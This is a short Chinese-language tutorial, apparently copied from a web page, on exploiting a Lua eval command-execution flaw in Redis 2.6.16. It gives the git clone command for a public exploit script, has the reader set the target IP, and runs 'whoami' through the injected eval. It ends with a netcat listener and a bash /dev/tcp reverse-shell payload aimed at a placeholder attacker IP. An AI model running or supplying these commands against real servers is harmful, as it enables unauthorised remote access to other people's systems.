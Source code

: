 ```plain
git clone https://github.com/QAX-A-Team/redis_lua_exploit.git //下载漏洞利用脚本
```

测试环境：`centos6.5+redis 2.6.16`

脚本为 python2，运行脚本需先安装 `python2 redis` 组件

```plain
python2 -m pip install redis //为python2 安装redis组件
```

修改脚本中 host为目标 IP。  
[![](assets/1702372985-4b7731255cb6f07cd67162d9178a737f.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/25.png)

通过`redis-cli`连接到目标 redis ，执行`eval "tonumber('whoami', 8)" 0`这段 lua，目标服务器就会执行whoami命令。

```plain
eval "tonumber('whoami', 8)" 0 //执行命令
```

此时我们使用回弹shell 测试一下，先开启 nc监听：

```plain
nc -lvnp 5678
```

再连接上数据库执行会弹语句：

```plain
eval "tonumber('/bin/bash -i >& /dev/tcp/<攻击机ip>/<端口信息> 0>&1', 8)" 0
```
